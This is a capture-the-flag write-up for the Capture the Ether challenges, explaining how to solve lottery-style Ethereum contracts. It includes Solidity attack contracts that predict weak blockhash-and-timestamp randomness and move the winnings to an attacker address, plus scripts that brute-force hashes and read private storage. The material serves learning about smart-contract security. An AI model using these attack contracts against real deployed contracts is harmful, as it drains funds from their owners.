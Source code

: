 # Capture The Ether WRITEUP


Writeup of the different challenges of [Capture the ether](https://capturetheether.com/)

# Warmup

## 2) Call Me

Pretty simple, you just call the function `callMe()`.

## 3) Choose a nickname

Again the challenge is simple, you call the function `setNickame()` with your nickname.
2 subtilities:
- One, you need to call `setNickname()` on the CaptureTheEther contract at address `0x71c46Ed333C35e4E6c62D32dc7C8F00D125b4fee` and not the address given on the left.
- Two, you need to be sure to encode your nickname correctly. The contract check the leftmost character to see if its 0 or not so you need to be sure that your nickname is save as 0xYOURNICKNAMEINHEX00000000000000000000...0 instead of 0x00000000000000000000...0YOURNICKNAMEINHEX.

# Lotteries

## 4) Guess the number

Simply call `guess()` with 42 as argument and msg.value equal to 1 ether.

## 5) Guess the secret number

We need to find which uint8 has a keccak256 hash equal to the one save in the contract. We can easily brute force the solution with a loop:
```python
for i in range(2 ** 8):
    # if the hash matches, guess the number
    if Web3.solidityKeccak(["uint8"], [i]).hex().upper() == answerHash.upper():
        contract.guess(i, {"from": account, "value": ONE})
```
Then we send the transcation like the previous challenge.

## 5) Guess the random number

We need to find the number saved during the creation of the contract. Since the variable doesn't have the `public` visibility modifer, solidity didn't create a getter `answer()`, but we can still look at the contract storage and find the number:
```python
answer = int(w3.eth.get_storage_at(contract_address, 0).hex(), base=16)
```
Then we send the transcation like the previous challenge.

## 6) Guess the new number

Similar to the previous challenges, we need to find the right number, only now, the number is generated at the same time we are trying to guess it.
```solidity
uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));
```

To guess this number, we create an attack contract that will do the same calculation as the target contract and will then "guess" the correct answer. Since the calculations are done during the same transaction, they will have the same block.number and timestamp:
```solidity
uint8 answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );
GuessTheNewNumber(target_contract).guess{value: msg.value}(answer);
payable(msg.sender).transfer(address(this).balance);
```
We need to slightly modify the syntax since we are using solidity version 0.8.0 so `now` becomes `block.timestamp` and `keccak(x,y)` become `keccak256(abi.encodePacked(x,y))`
Then our `attack()` function call the `guess()` function with a `msg.value` of `1 ether` and we then transfer the received ether to our EOA attacker address. We also need to make sure our attack contract has a `receive()` function to receive the ether from the target contract:
```solidity
receive() external payable {}
```


## 6) Predict the future

We need to guess a number between 0 and 9 (because of the `% 10`) and call `lockInGuess(uint8 n)`. Then with a different transaction, check wheter our guess was correct or not by calling `settle()`. The problem is, if the guess was wrong, we need to guess again and each guess cost us 1 ether:
```solidity
function lockInGuess(uint8 n) public payable {
    require(guesser == 0);
    require(msg.value == 1 ether); // need to pay 1 ether to guess

    guesser = msg.sender;
    guess = n;
    settlementBlockNumber = block.number + 1; 
}

function settle() public {
    require(msg.sender == guesser); // need to call lockInGuess() each time we settle
    require(block.number > settlementBlockNumber);// has to be a different transaction (and in a different block)

    uint8 answer = uint8(
        keccak256(block.blockhash(block.number - 1), now)
    ) % 10; // calculate the answer

    guesser = 0; //reset, so if the next line is wrong, we need to call lockInGuess() again
    if (guess == answer) {
        msg.sender.transfer(2 ether);
    }
}
```
The trick is to randomly guess a number, say 8, and then with a different transaction check whether that transaction will be in a block where the answer will be equal to our guess. If it is, we call `settle()` and win, if it's not, we simply abort the transaction, lost some gas fee, and try again.
```solidity
function attack() public returns (bool) {
    uint8 answer = uint8(
        uint256(
            keccak256(
                abi.encodePacked(
                    blockhash(block.number - 1),
                    block.timestamp
                )
            )
        )
    ) % 10; // compute the answer just like the target contract will, with the same params (`block.number` and `block.timestamp`)
    require(answer == 8); // make sure our answer is correct, if not revert
    PredictTheFutureChallenge(target).settle(); // if its correct, we call settle()
    payable(msg.sender).transfer(address(this).balance);// and transfer our ether from our contract to our attacker address
}
```
Now we just need to send the same transaction where we call `attack()` until the tx goes through and we recover our ethers. We only lose some gas fee.



## 6) Predict the block hash

Same challenge as before, except we now need to guess the hash of the current block instead of a number modulo 8. Another difference is that the answer check the hash of the block our guess transaction was in (the one in which we call `lockInGuess(bytes32 hash)`) and not the current one. If we read the solidity docs on [blockhash](https://docs.soliditylang.org/en/v0.4.24/units-and-global-variables.html#block-and-transaction-properties), we see that they are only stored for 256 blocks, for scalability reasons, and after that `blockhash(blockNumber)` will return 0. so we know that the answer will be zero in the future, we can just guess zero, wait until the block number has increased by more than 256 (it takes about an hour) and make the contract check our answer.

